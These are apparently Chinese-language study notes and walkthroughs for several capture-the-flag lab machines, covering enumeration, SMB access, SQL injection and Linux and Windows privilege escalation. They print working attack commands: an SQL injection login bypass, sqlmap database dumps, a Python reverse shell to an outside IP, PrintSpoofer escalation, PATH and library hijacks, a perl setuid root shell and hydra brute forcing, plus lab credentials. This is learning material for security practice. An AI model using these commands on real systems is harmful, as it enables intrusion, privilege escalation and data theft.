






## Relevant

nmap扫描发现了很多服务：

80：windows server的http

135：msrpc，Windows远程调用服务

139/445：SMB服务，windows文件共享协议，并且识别到了widnows内核版本

3389：windows远程桌面

审计SMB：

```
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|_  message_signing: disabled (dangerous, but default)
```

`account_used:guset`，访客账户是激活状态，并且可以成功握手

smb探测：

```
smbclient -L //10.48.139.135 -N
```

探测出共享列表，出来常见的C$等，有一个nt4wrksv是自定义文件夹

尝试匿名连接后获取文件内容，解密base64

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

列出了两个应该是用户名密码的东西。

匿名登录后把shell.apsx上传，之后web或curl访问出发反弹shell

连接后，执行`whoami /priv`

当前用户启动了` SeImpersonatePrivilege`令牌权限

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

使用smb把这个文件上传到windows机器

```
.\PrintSpoofer64.exe -i -c cmd
```


## Wonderland

进行常规扫描，有一个/img目录下有三张图片

提取图片的隐藏信息

### steghide

隐写工具，将信息隐藏在图片或音频中

```
# 查看是否有隐藏文件
steghide info <文件名>
# 提取文件
steghide extract -sf <文件名>
```

提取文件后，提示：`follow the r a b b i t `

之后就能访问`http://10.49.135.177/r/a/b/b/i/t/`

网页源码中：` <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>`

是用户名：密码的格式，登录ssh

登录后，尝试提权，`sudo -l`有执行一个脚本的root权限，脚本调用了random包



尝试python库劫持提权：

因为alice有权以rabbit的权限执行含有random包的python脚本，python会先去脚本运行的当前目录寻找`random.py`，我们创建一个`random.py`文件，内容为：

```
import os; os.system("/bin/bash")
```

之后执行：

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

就能够横向到rabbit用户

rabbit用户有一个suid的可执行文件teaParty，传回kail进行分析

```
# 宿主机
python3 -m http.server 1234
# 攻击机
wget http://10.49.135.177:1234/teaParty
```


说明调用了相对路径，尝试path劫持：

在/tmp路径下创建一个脚本并赋予x权限：

```
echo -e '#!/bin/bash\n/bin/bash' > date
```

修改环境变量，这样/tmp就成了系统寻找命令的第一优先级

```
export PATH=/tmp/:$PATH
# 可以通过命令查看
echo $PATH
```

之后再运行这个程序，发现变成了hatter权限

之所以一直无法提权到root，因为程序内部执行了setuid(1003)，身份切换后才去调用`system("date...")`语句，所以触发劫持后身份变成hatter

到hatter用户后，有一个password.txt文件，能够重新登录ssh

```
getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
```

perl也是一个编程语言，有setuid权限

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```


## Lockdown

常规扫描，之后进入web页面，有一个登录框或者输入establishment code，尝试sql注入

```
' OR 1=1 -- -
```

成功登录，这里有登录点，使用sqlmap扫描

因为手动发现了注入点，查找数据库名：

```
sqlmap -u "http://contacttracer.thm/classes/Login.php?f=elogin" --data="code=1" --cookie="PHPSESSID=tbeme3md6vdt7k31kq7qqe2g43" -p code --current-db
```



数据库名为cts_db

```
sqlmap -u "http://contacttracer.thm/classes/Login.php?f=elogin" \
       --data="code=1" \
       --cookie="PHPSESSID=tbeme3md6vdt7k31kq7qqe2g43" \
       -p code -D cts_db --tables --batch
```

能够注出表名

```
sqlmap -u "http://contacttracer.thm/classes/Login.php?f=elogin" \
       --data="code=1" \
       --cookie="PHPSESSID=tbeme3md6vdt7k31kq7qqe2g43" \
       -p code -D cts_db -T users --dump --batch
```

能够注出用户名密码，之后的盲注有点太慢了

```
sqlmsqlmap -u "http://contacttracer.thm/classes/Login.php?f=elogin"
       --data="code=1" \
       --cookie="PHPSESSID=tbeme3md6vdt7k31kq7qqe2g43" \
       -p code -D cts_db -T users -C username,password --dump \
       --threads=5 --keep-alive --batch

```

用户名密码为：`admin/sweetpandemonium`

在system-info上传图片，之后在普通用户页面打开图片即可反弹shell

但是通过这个反弹的shell是www-data用户，我们先根据sql注入得到的密码来登录正常用户cyrus

sudo -l发现能够提权的脚本



先使用python切换为TTY终端

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
# 创建一个文件软链接
ln -s /etc/passwd passwd_link

# 手动调用sh
sudo /opt/scan/scan.sh
```

直接卡死了，只能换一个靶机，网上找了题解

这个脚本能够启动一个`clamsacn`杀毒软件工具，在启动时会扫描/var/lib/clamav/目录，并加载该目录下所有符合规范的病毒特征库

而脚本的逻辑是：如果发现文件是病毒，将其复制到用户的` /home/cyrus/quarantine`

我们现在病毒库中自定义一条规则：

```
rule root { strings: $s = "THM{" condition: $s }
```

之后输入/root/root.txt路径，将其判定为病毒，复制到家目录下


## Boiler CTF

nmap扫描后发现网页为ubuntu，针对ubuntu进行目录扫描，能够发现joomla

继续扫，能够找到html页面，并且存在RCE

RCE之后找到ssh用户名密码，通过55007端口登录

登录后找到另一个用户，横向过去后利用find命令提权

- 信息收集能力欠缺，需要注意每一个可能的点，不急着继续


## lookup

给定一个ip，进行nmap扫描，有一个网址，进行用户名密码爆破；

用户名正确与否报错不同，可以爆出jose和admin两个用户；其中jose的密码：`password123`

登录后，是一个`elFinder`系统，有一个cve漏洞

```
https://www.exploit-db.com/
```

获取半交互式shell后，有python，提升到全交互式：

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.176.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

通过查找SUID找到`/usr/sbin/pwm`，尝试逆向



`snprintf`用来拼接字符串，我们需要伪造id以把v7这个变量拼接到命令中，从而读取`.passwords`中的内容

```
mkdir /tmp/fakebin 

echo '#!/bin/bash' > /tmp/fakebin/id  #在 /tmp/fakebin/id 中写入第一行 #!/bin/bash，声明这是一个用 Bash 解释器运行的脚本。

echo 'echo "uid=1000(think) gid=1000(think) groups=(think)"' >> /tmp/fakebin/id # 追加一行 echo 命令，打印出一段伪造的think用户信息。
之前通过cat /etc/passwd | grep sh 查看 得到

chmod +x /tmp/fakebin/id # 赋予 id 文件执行权限

export PATH=/tmp/fakebin:$PATH # 修改PATH
```

伪造id



类似密码表，尝试爆破ssh密码

```
hydra -l think -P pass.txt ssh://10.49.180.46
```



`sudo -l`查看用户能用的命令，有look命令

```
sudo /usr/bin/look "" /root/root.txt
```

获取flag


